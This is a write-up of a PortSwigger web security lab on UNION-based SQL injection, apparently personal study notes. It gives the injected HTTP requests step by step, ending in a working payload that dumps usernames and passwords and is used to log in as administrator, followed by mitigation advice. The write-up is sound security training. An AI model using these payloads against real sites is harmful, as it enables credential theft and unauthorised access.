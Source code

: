 # SQL Injection - UNION Attack: Retrieve Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?categoyy=Corporate+gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```http
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL-- HTTP/2
Response: HTTP/2 200 OK
```

### 3. Identified Column Accepting String Output
```http
GET /filter?category=Corporate+gifts'+UNION+SELECT+'a',NULL-- HTTP/2
Response: HTTP/2 200 OK

GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,'a'-- HTTP/2
Response: HTTP/2 200 OK

GET /filter?category=Corporate+gifts'+UNION+SELECT+'a','a'-- HTTP/2
Response: HTTP/2 200 OK
```

### 4. Retrieved Data from Users Table
```http
GET /filter?category=Corporate+gifts'+UNION+SELECT+username,password+FROM+users-- HTTP/2
```
![burpsuite response](./misc-images/05-1.png)

This retrieved all usernames and passwords including the administrator.

### 5. Retrieved Data from Users Table

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve data from other column using UNION-based SQL injection.

---

## Notes

